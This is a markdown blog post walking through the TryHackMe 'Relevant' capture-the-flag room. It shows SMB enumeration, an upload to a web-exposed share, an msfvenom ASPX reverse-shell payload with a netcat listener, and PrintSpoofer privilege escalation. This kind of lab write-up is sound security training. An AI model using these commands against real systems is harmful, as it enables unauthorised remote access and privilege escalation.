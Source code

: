 ```yaml
---
slug: relevant-walkthrough
title: TryHackMe - Relevant - Walkthrough
authors: bw
tags: [learning, relevant, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Relevant][relevant]. Let’s get started!

# Overview
This room is laid out about as similar to a real-world pentest that a THM room can be. It comes with a Scope of Work (SOW) that you need to read through and follow. As the room states, it would be beneficial to treat this as a real pentest, and write a report on it. I won’t be doing that in this walkthrough, but I will do that on my own. I may post the report in a separate posting.

# User Flag
Since this is a black box test, let’s start with `rustscan`. This tool can be found [here][rustscan]. This tool will first scan the server, then pass the open ports into `nmap` for output.

Command: `rustscan -a <machine_ip> -- -A -Pn`

![r1](/src/img/thm/relevant/r1-1.png)

As you can see, we have a web-server, SMB, and RDP ports open on this box. We also see 49663 port open with an IIS service.. We have a possible OS of Windows Server 2016 SE 14393.

Let’s checkout the port 80 web-server first!

![r2](/src/img/thm/relevant/r2.webp)

We are met by an extremely blue default Windows IIS page. `nmap` gave a version of `httpd 10.0` that we can research exploits on. SMB also seems like a good route to go. Let’s enumerate smb with `smbclient`. This tool should be pre-installed on your Kali instance. If not, run `sudo apt install smbclient`

Let’s run it with this command:

`smbclient -L \\\\<machine_ip>`

Just press **Enter** when prompted for a password

![r3](/src/img/thm/relevant/r3.png)

We can see there are a few directories listed. Can we connect to any? We can connect to `IPC$` with `smbclient \\\\<machine_ip>\\IPC$`. However, we get the following error:

`NT_STATUS_INVALID_INFO_CLASS listing \*`

Let’s try the last one: `nt4wrksv`

Success! `ls` the directory and we see `passwords.txt`

![r4](/src/img/thm/relevant/r4.png)

Let’s view the file. `get passwords.txt`

Now we have 2 encoded passwords. Let’s decode them! Head to [base64decode.org][base64] to decode both of the strings.

Now, we have 2 usernames and passwords. You may have tried to login, enumerate more, etc with these 2 usernames and passwords. Well, this is what we call a **honeypot**. This was put in place by the creator of the room to trick us and waste our time. Job well done! This is a dead end.

Let’s go back to other options of getting in. We haven’t checked out the website, other than visiting it. Let’s enumerate directories!

`dirsearch -u http://<machine_ip> -E -x 400,500 -r -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We didn’t find anything there. Let’s try the webserver on port 49663. Same default page, but what about a dirsearch?

![r9](/src/img/thm/relevant/r9.webp)

Looks like there is a directory with the same name as the smb share that we found earlier. Let’s see if it is connected to the share we were in.

![r5](/src/img/thm/relevant/r5.png)

This is good! Now, can we upload files? In a terminal, connect to the smb share and try to upload a file. `put file.txt`

![r6](/src/img/thm/relevant/r6.png)

SUCCESS! Alright, now how can we exploit this? Let’s craft a payload with `msfvenom`!

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<thm_ip> LPORT=1234 -f aspx -o shell.aspx
```

Now upload the file to the SMB client. Start a `netcat` listener: `nc -lvnp 1234`. Now curl the file: `curl http://<machine_ip>/nt4wrksv/shell.aspx`

![r7](/src/img/thm/relevant/r7.png)

Now navigate to a user folder to get the `user.txt` flag.

![r8](/src/img/thm/relevant/r8.png)

#Root Flag
Now we need to find a way to do privilege escalation on this machine. Let’s start by going through our permissions. I like to follow this [Checklist][payloads].

When you run: `whoami /priv` we find something interesting.

![r11](/src/img/thm/relevant/r11.png)

I found this [write-up][printspoof-w]. Let’s try this exploit! Exploit can be found [here][printspoof-e]. However, we need this to be compiled. You can compile this yourself, or just download the .exe [here][comp-print].

Get the file onto the system and then run: `PrintSpoofer.exe -i -c cmd`

![r12](/src/img/thm/relevant/r12.png)

Now get the root flag!

![r13](/src/img/thm/relevant/r13.png)

# Review
I thought this was an excellent room. It tested my skills and even caught me with that wonderful honeypot! I thought the creator of the room did a great job at keeping the room interesting and not having the normal points of entry!

# References
[TryHackMe][thm] | [Relevant Room][relevant] | [rustscan][rustscan] | [base64decode.org][base64] | [PayloadsAllTheThings WinPrivEsc Checklist][payloads] | [PrintSpoofer Write-Up][printspoof-w] | [PrintSpoofer Exploit][printspoof-e] | [Compiled PrintSpoofer.exe][comp-print]

[thm]: https://tryhackme.com
[relevant]: https://tryhackme.com/r/room/relevant
[rustscan]: https://github.com/RustScan/RustScan
[base64]: https://www.base64decode.org
[payloads]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration
[printspoof-w]: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
[printspoof-e]: https://github.com/itm4n/PrintSpoofer
[comp-print]: https://github.com/dievus/printspoofer